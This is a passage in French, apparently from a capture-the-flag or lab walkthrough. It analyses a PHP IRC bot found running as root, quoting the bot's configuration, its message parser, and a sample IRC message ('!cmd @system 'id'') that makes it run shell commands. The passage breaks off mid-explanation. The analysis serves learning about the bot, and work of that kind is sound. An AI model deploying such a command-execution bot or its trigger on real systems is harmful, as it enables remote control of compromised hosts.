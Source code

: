 Dans les processus je remarque cette ligne :  

```plain
root      1537  0.0  1.2  28748  6360 ?        S    May29   0:00 php /root/decoded.php
```

Bien sûr le fichier est inaccessible (ce serait trop facile). Heureusement on trouve la version d'origine dans la racine web (*/var/www/botsources/botcode.php.txt*).  

Le script commence par définir différentes variables :  

```php
$servers   = "127.0.0.1";
$ports     = "6667";
$admins    = "";
$channels  = "#somechannel";
$realnames = "jhl";
$nicknames = "jhl1,jhl2,jhl3,jhl4,(...snip...),jhl27,jhl28,jhl29,jhl30";
$chanpass  = "trolol";
```

puis il se connecte au serveur IRC local et lance un parseur pour chaque ligne reçue :  

```php
parser($text);
```

Cette ligne est ensuite découpée en morceaux :  

```php
$sline      = $line;
$line         = explode(" ",$line);
$iduser     = explode("@",$line[0]);
$huser      = explode("!",$iduser[0]);
$user        = substr($huser[0],1,strlen($huser[0]));
$userId     = $huser[1];
$userHost = $iduser[1];
$typeMsg = $line[1];
$dropMsg = ($line[2]==$nick)?$user:$line[2];
$called     = (substr($line[3],1,strlen($line[3]))=="!cmd")?true:((substr($line[3],1,strlen($line[3]))==$nick)?true:false);
$pubcalled  = (substr($line[3],1,strlen($line[3]))=="!bot")?true:false;
$cmd        = (substr($line[4],0,1)=="@")?substr($line[4],1,strlen($line[4])):'shell';
$pubcmd   = (substr($line[4],0,1)=="@")?substr($line[4],1,strlen($line[4])):false;
if($line[5]){
    for($i=5;$i<count($line);$i++){
	$arg   .= $line[$i].(($i<(count($line)-1))?" ":"");
    }
}
```

Ainsi si un bot baptisé *abcd* reçoit le message suivant de la part d'un utilisateur *root* :  

```plain
:root!~root@192.168.1.3 PRIVMSG abcd :!cmd @system 'id'
```

Il aura les variables suivantes :  
